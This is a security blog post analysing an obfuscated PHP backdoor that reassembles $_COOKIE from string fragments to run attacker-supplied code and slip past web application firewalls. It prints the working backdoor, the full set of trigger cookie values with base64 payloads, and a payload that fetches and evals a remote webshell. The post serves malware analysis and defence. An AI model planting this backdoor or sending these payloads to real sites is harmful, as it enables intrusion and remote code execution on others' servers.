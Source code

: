 ```yaml
---
layout: post
title: "Firewall bypass using cookies and superglobal PHP variables"
date: 2020-05-26 09:00:00 -0700
cover: /assets/images/firewall-bypass-using-cookies-and-superglobal-PHP-variables/cover.png
excerpt: Attackers need to send requests to their uploaded malware, but how can they do so without triggering a firewall? This is one bypass method...
authors:
  - name: Luke Leal
	title: Security Engineer, Sucuri
	url: https://twitter.com/rootprivilege
	photo: https://avatars.githubusercontent.com/sucuri-luke
---
```


When we investigate compromised websites, it's not unusual to find malicious files that have been obfuscated through encoding or encryption — however, these are not the only methods that attackers use to obfuscate and execute their malware within compromised environments.

## Obfuscation techniques using PHP variables

For example, here's an obfuscation sample found during a recent investigation which doesn't use any encoding or encryption at all.

<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%; white-space: pre-wrap;"> <span style="color: #40ffff">$x</span><span style="color: #d0d0d0">=</span><span style="color: #ed9d13">'_C'</span><span style="color: #d0d0d0">;</span><span style="color: #40ffff">$v</span><span style="color: #d0d0d0">=</span><span style="color: #ed9d13">'OO'</span><span style="color: #d0d0d0">;</span><span style="color: #999999; font-style: italic">/*5h*/</span><span style="color: #40ffff">$o</span><span style="color: #d0d0d0">=</span><span style="color: #ed9d13">'KI'</span><span style="color: #d0d0d0">;</span><span style="color: #999999; font-style: italic">/*{*Z*/</span><span style="color: #40ffff">$qv</span><span style="color: #d0d0d0">=</span><span style="color: #ed9d13">'E'</span><span style="color: #d0d0d0">;</span><span style="color: #40ffff">$j</span><span style="color: #999999; font-style: italic">/*8i$7*/</span><span style="color: #d0d0d0">=</span><span style="color: #a61717; background-color: #e3d2d2">$</span><span style="color: #d0d0d0">{</span><span style="color: #40ffff">$x</span><span style="color: #d0d0d0">.</span><span style="color: #40ffff">$v</span><span style="color: #d0d0d0">.</span><span style="color: #40ffff">$o</span><span style="color: #d0d0d0">.</span><span style="color: #40ffff">$qv</span><span style="color: #d0d0d0">};</span><span style="color: #6ab825; font-weight: bold">if</span><span style="color: #d0d0d0">(</span><span style="color: #24909d">isset</span><span style="color: #d0d0d0">(</span><span style="color: #40ffff">$j</span><span style="color: #999999; font-style: italic">/*f(UZ*/</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'Q'</span><span style="color: #d0d0d0">])){</span><span style="color: #40ffff">$oo</span><span style="color: #d0d0d0">=</span><span style="color: #40ffff">$j</span><span style="color: #999999; font-style: italic">/*Mr*/</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'Q'</span><span style="color: #d0d0d0">].</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'J'</span><span style="color: #d0d0d0">];</span><span style="color: #40ffff">$tj</span><span style="color: #d0d0d0">=/*m5d*/</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'St'</span><span style="color: #d0d0d0">].</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'V'</span><span style="color: #d0d0d0">].</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'x'</span><span style="color: #d0d0d0">];</span><span style="color: #40ffff">$pd</span><span style="color: #d0d0d0">=</span><span style="color: #40ffff">$oo</span><span style="color: #d0d0d0">(</span><span style="color: #ed9d13">''</span><span style="color: #d0d0d0">,</span><span style="color: #40ffff">$tj</span><span style="color: #d0d0d0">(</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'U'</span><span style="color: #d0d0d0">]));</span><span style="color: #40ffff">$pd</span><span style="color: #d0d0d0">();}</span></pre></div>

Instead, this example splits a predefined PHP variable, **$_COOKIE**, into segmented strings assigned to variables before concatenating them. It also uses code comments and meaningless variable names to generate confusion, making it more difficult to logically read the code.

This obfuscation technique also uses a PHP array, allowing the attacker to pass data to the PHP script via HTTP cookies so that arbitrary code can be executed.

These techniques aren't very easy to see right off the bat, but the malicious behavior becomes more obvious when we remove the code comments, beautify the code, and split it into two sections.

<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%; white-space: pre-wrap;">
<span style="color: #40ffff">$x</span> <span style="color: #d0d0d0">=</span> <span style="color: #ed9d13">'_C'</span><span style="color: #d0d0d0">;</span>
<span style="color: #40ffff">$v</span> <span style="color: #d0d0d0">=</span> <span style="color: #ed9d13">'OO'</span><span style="color: #d0d0d0">;</span>
<span style="color: #40ffff">$o</span> <span style="color: #d0d0d0">=</span> <span style="color: #ed9d13">'KI'</span><span style="color: #d0d0d0">;</span>
<span style="color: #40ffff">$qv</span> <span style="color: #d0d0d0">=</span> <span style="color: #ed9d13">'E'</span><span style="color: #d0d0d0">;</span>
<span style="color: #40ffff">$j</span> <span style="color: #d0d0d0">=</span> <span style="color: #a61717; background-color: #e3d2d2">$</span><span style="color: #d0d0d0">{</span><span style="color: #40ffff">$x</span> <span style="color: #d0d0d0">.</span> <span style="color: #40ffff">$v</span> <span style="color: #d0d0d0">.</span> <span style="color: #40ffff">$o</span> <span style="color: #d0d0d0">.</span> <span style="color: #40ffff">$qv</span><span style="color: #d0d0d0">};</span>
</pre></div>

The first section of the code contains the variables **$x**, **$v**, **$o**, and **$qv** which are used to contain the segmented strings. The strings are concatenated with the **.** operator in the **$j** variable to generate the **[$_COOKIE](https://www.php.net/manual/en/reserved.variables.cookies.php)** PHP predefined variable.

This is a crucial part of the malware. The attacker simply places their predefined PHP functions and data into HTTP cookies, which are then passed along to the script in their HTTP request.

## Malicious data in HTTP requests

Here's how attackers are able to pass along data in their malicious code:

<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">
<span style="color: #6ab825; font-weight: bold">if</span> <span style="color: #d0d0d0">(</span><span style="color: #24909d">isset</span><span style="color: #d0d0d0">(</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'Q'</span><span style="color: #d0d0d0">]))</span>
<span style="color: #d0d0d0">{</span>
<span style="color: #40ffff">$oo</span> <span style="color: #d0d0d0">=</span> <span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'Q'</span><span style="color: #d0d0d0">]</span> <span style="color: #d0d0d0">.</span> <span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'J'</span><span style="color: #d0d0d0">];</span>
<span style="color: #40ffff">$tj</span> <span style="color: #d0d0d0">=</span> <span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'St'</span><span style="color: #d0d0d0">]</span> <span style="color: #d0d0d0">.</span> <span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'V'</span><span style="color: #d0d0d0">]</span> <span style="color: #d0d0d0">.</span> <span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'x'</span><span style="color: #d0d0d0">];</span>
<span style="color: #40ffff">$pd</span> <span style="color: #d0d0d0">=</span> <span style="color: #40ffff">$oo</span><span style="color: #d0d0d0">(</span><span style="color: #ed9d13">''</span><span style="color: #d0d0d0">,</span> <span style="color: #40ffff">$tj</span><span style="color: #d0d0d0">(</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'U'</span><span style="color: #d0d0d0">]));</span>
<span style="color: #40ffff">$pd</span><span style="color: #d0d0d0">();</span>
<span style="color: #d0d0d0">}</span>
</pre></div>

This sample starts off with an **if** statement, which checks for the existence of the HTTP cookie with the name **Q**.

If the incoming HTTP request does not contain this cookie, then the PHP code simply stops there.

If the request **does** contain a **Q** cookie, the code creates three new variables **$oo**, **$tj**, and **$pd**. These variables are produced from segmented data provided by the attacker's HTTP cookies **Q**, **J**, **St**, **V**, **x**, and **U**, which are concatenated to form executable code.

Since the attacker is responsible for supplying these variable definitions, the script offers a lot of flexibility to define whatever code they want to execute.

In this particular example, the format and execution of the **$pd** variable indicates that bad actors are leveraging the PHP function **[create_function](https://www.php.net/manual/en/function.create-function)** to form their requests.

### The cookie assembly line

The attacker uses a number of superglobal PHP variables to construct the data. Strings stored in cookies **Q** and **J** are assembled using **create_function** and assigned to the **$oo** variable.

The **$tj** variable is defined by the attacker's data found within the HTTP cookies **St**, **V**, and **x**. Unlike the **$oo** variable,, the **$tj** variable offers a lot more flexibility since it isn't limited to the single PHP function **create_function**. The attacker can essentially use whatever they like for the **$tj** variable.

One important item to keep in mind is that whatever function the attacker chooses to use here will have to execute on the data provided by the final cookie — **U**. For this example, I chose to use the function **base64_decode** which means that the **U** cookie will need to be encoded with [base64](https://en.wikipedia.org/wiki/Base64) to properly execute.

So far, we've identified a value for each cookie except for the last one, **U**.

<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">
<span style="color: #40ffff">Q</span><span style="color: #d0d0d0">=create_;</span>
<span style="color: #40ffff">J</span><span style="color: #d0d0d0">=function;</span>
<span style="color: #40ffff">St</span><span style="color: #d0d0d0">=base;</span>
<span style="color: #40ffff">V</span><span style="color: #d0d0d0">=</span><span style="color: #d0d0d0">64</span><span style="color: #d0d0d0">_;</span>
<span style="color: #40ffff">x</span><span style="color: #d0d0d0">=decode;</span></pre></div>

Cookie values don't have to exactly match the example shown above, but when concatenated they **do** need to match the name of the intended PHP function.

For example, an attacker could define **Q** to be **creat** and **J** to be **e_function** — when concatenated, these two variables will end up being **create_function**, which they can then use to create a new function for execution.

### Arbitrary PHP code submission

To complete the obfuscation, we have just a single HTTP cookie left to define — **U**.

The data assigned to this **U** variable is the PHP code created by **create_function** and executed by **$pd()**. This cookie is what grants the attacker so much flexibility, allowing them to store any malicious PHP code that they want to execute.

For this scenario, I wanted to demonstrate how an attacker can submit arbitrary code passed in their HTTP request to the malicious file, so I chose to use the following PHP snippet.
<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">
<span style="color: #6ab825; font-weight: bold">eval</span><span style="color: #d0d0d0">(</span><span style="color: #24909d">base64_decode</span><span style="color: #d0d0d0">(</span><span style="color: #40ffff">$_COOKIE</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'cmd'</span><span style="color: #d0d0d0">]));</span></pre></div>

It's worth mentioning that HTTP cookies are generally limited to 4,096 characters or less, so copying and pasting an entire PHP webshell's source code into the **U** character wouldn't work. And don't forget that the **U** cookie value will need to be base64 encoded so that the **$tj** variable can successfully run its **base64_decode** function on **U**'s value.

When base64 encoded, the **U** cookie looks like this.
<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">
<span style="color: #40ffff">U</span><span style="color: #d0d0d0">=ZXZhbChiYXNlNjRfZGVjb2RlKCRfQ09PS0lFWydjbWQnXSkpOw==</span>
</pre></div>
Okay, we now have all of the HTTP cookie values defined. When the variables are replaced with the actual concatenated values, the executed PHP code looks like this.

![alt_text](/engineering/assets/images/firewall-bypass-using-cookies-and-superglobal-PHP-variables/php-code.png "PHP Code")

The only thing left for the attacker to do is decide on the arbitrary base64 encoded PHP that they want to provide in their HTTP request. This is accomplished by defining the **cmd** cookie value.

### Base64 encoded "cmd" cookie

For this scenario, I chose to use the following code to load a PHP webshell from a third party URL into the PHP process on the infected website. This is performed without actually writing the PHP webshell to a file on the disk.
<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">
<span style="color: #40ffff">$a</span> <span style="color: #d0d0d0">=</span> <span style="color: #24909d">file_get_contents</span><span style="color: #d0d0d0">(</span><span style="color: #ed9d13">'https://[redacted].com/files/shell.txt'</span><span style="color: #d0d0d0">);</span><span style="color: #6ab825; font-weight: bold">eval</span><span style="color: #d0d0d0">(</span><span style="color: #ed9d13">'?>'</span><span style="color: #d0d0d0">.</span><span style="color: #40ffff">$a</span><span style="color: #d0d0d0">);</span>
</pre></div>

When this PHP code is then base64 encoded and added as the value for the **cmd** cookie, it will look like this.
<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">
<span style="color: #40ffff">cmd</span><span style="color: #d0d0d0">=JGEgPSBmaWxlX2dldF9jb250ZW50cygnaHR0cHM6Ly9bcmVkYWN0ZWRdL2ZpbGVzL3NoZWxsLnR4dCcpO2V2YWwoJz8+Jy4kYSk7</span></pre></div>

## Loading PHP webshells from third-party sources

Now that the attacker has defined all of the **Q**, **J**, **St**, **V**, **x**, and **U** cookies with their proper values along with the arbitrary code that they want executed, the last thing left to do is to send a very specific request to the malicious file found at the beginning of the post.

When the attacker's specially crafted HTTP request is sent to the malicious file, it executes everything provided by the HTTP request and its cookies, which in turn loads a PHP webshell from a remote third party source!

![alt_text](/engineering/assets/images/firewall-bypass-using-cookies-and-superglobal-PHP-variables/php-shell.png "PHP Shell")

### Detecting legitimate and malicious requests

Attackers are using this obfuscation method to bypass any security controls that inspect incoming HTTP requests — for example, the controls found in web application firewalls. By passing the malicious PHP code through base64 encoded HTTP cookies instead of **GET** or **POST** parameters, the attacker can bypass web application firewalls that don't inspect cookie contents.

It's much more common for a legitimate request from a visitor to contain a cookie that is base64 encoded than it is for a visitor to be submitting base64 encoded URL parameters in an HTTP request. As a result, this technique is less suspicious and has a higher success rate — malicious requests have a lower chance of being blocked since they contain 0 parameters in the URL and exist solely within the cookie encoded values.